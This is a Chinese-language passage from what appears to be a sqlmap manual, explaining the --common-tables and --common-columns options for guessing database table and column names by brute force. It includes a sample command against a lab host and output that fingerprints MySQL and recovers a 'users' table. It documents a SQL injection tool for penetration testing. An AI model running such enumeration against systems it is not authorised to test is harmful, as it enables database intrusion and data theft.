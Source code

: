 # 爆破

**暴力破解表名**

参数：`–common-tables`

当使用`–tables`无法获取到数据库的表时，可以使用此参数。

通常是如下情况：

```
1. `MySQL`数据库版本小于5.0，没有`information_schema`表。

2. 数据库是`Microssoft Access`，系统表`MSysObjects`是不可读的（默认）。

3. 当前用户没有权限读取系统中保存数据结构的表的权限。
```

暴力破解的表在`txt/common-tables.txt`文件中，你可以自己添加。

列举一个MySQL 4.1的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:'4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```

**暴力破解列名**

参数：`–common-columns`

与暴力破解表名一样，暴力跑的列名在`txt/common-columns.txt`中。
